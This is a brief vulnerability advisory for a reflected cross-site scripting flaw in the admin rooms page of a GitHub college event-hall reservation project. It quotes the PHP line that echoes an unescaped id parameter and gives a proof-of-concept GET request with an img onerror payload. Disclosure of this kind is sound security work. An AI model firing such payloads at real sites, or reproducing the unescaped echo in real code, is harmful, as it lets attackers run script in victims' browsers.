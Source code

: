 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/rooms.php

## Code
```php
<form action="rooms.php?id=<?php echo $id; ?>" method="POST" enctype="multipart/form-data"
                      autocomplete="off">
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/rooms.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


